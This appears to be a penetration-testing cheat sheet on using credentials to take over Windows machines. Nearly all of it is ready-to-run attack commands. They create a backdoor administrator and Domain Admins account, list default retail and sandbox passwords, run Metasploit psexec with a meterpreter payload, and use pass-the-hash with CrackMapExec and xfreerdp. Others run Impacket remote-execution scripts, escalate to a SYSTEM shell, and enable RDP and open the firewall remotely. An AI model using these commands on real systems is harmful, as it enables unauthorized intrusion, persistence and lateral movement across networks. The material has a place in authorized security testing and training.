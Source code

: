 # Windows - Using credentials

## Summary

* [TIPS](#tips)
    * [TIP 1 - Create your credential](#tip-1-create-your-credential)
    * [TIP 2 - Retail Credential](#tip-2-retail-credential)
    * [TIP 3 - Sandbox Credential - WDAGUtilityAccount](#tip-3-sandbox-credrential-wdagutilityaccount)
* [Metasploit](#metasploit)
    * [Metasploit - SMB](#metasploit-smb)
    * [Metasploit - Psexec](#metasploit-psexec)
* [Crackmapexec](#crackmapexec)
* [Winexe](#winexe)
* [Psexec.py / Smbexec.py / Wmiexec.py](#psexec.py---smbexec.py---wmiexec.py)
* [PsExec - Sysinternal](#psexec-sysinternal)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Netuse](#netuse)
* [Runas](#runas)

## TIPS

### TIP 1 - Create your credential

```powershell
net user hacker hacker1234* /add
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain
```

Some info about your user

```powershell
net user /dom
net user /domain
```

### TIP 2 - Retail Credential 

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### TIP 3 - Sandbox Credential - WDAGUtilityAccount

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit

### Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN  
set SMBUser username
set SMBPass password
services -p 445 -R  
run
creds
```

### Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser username
set SMBPass password
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d DOMAIN -u username -p password
python crackmapexec.py 10.10.10.10 -d DOMAIN -u username -p password -x whoami
# pass the hash
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe 

Integrated to Kali

```python
winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py 

from Impacket

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py DOMAIN/username:password@10.10.10.10
python smbexec.py DOMAIN/username:password@10.10.10.10
python wmiexec.py DOMAIN/username:password@10.10.10.10

# psexec.exe -s cmd
# switch admin user to NT Authority/System
```

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s  # get System shell
```

## RDP Remote Desktop Protocol 

```powershell
python rdpcheck.py DOMAIN/username:password@10.10.10.10
rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
rdesktop -u username -p password -g 70 -r disk:share=/tmp/myshare 10.10.10.10
# -g : the screen will take up 70% of your actual screen size
# -r disk:share : sharing a local folder during a remote desktop session 
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

or with Metasploit

```powershell
run getgui -u admin -p 1234
```

Then log in using xfreerdp 

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:10.0.0.1 # pass the hash works for Server 2012 R2 / Win 8.1+
 xfreerd /u:runner /v:10.0.0.1 # password will be asked
```


## Netuse 

Windows only

```powershell
net use \\ordws01.cscou.lab /user:DOMAIN\username password
C$
```

## Runas 

```powershell
runas /netonly /user:DOMAIN\username "cmd.exe"
runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
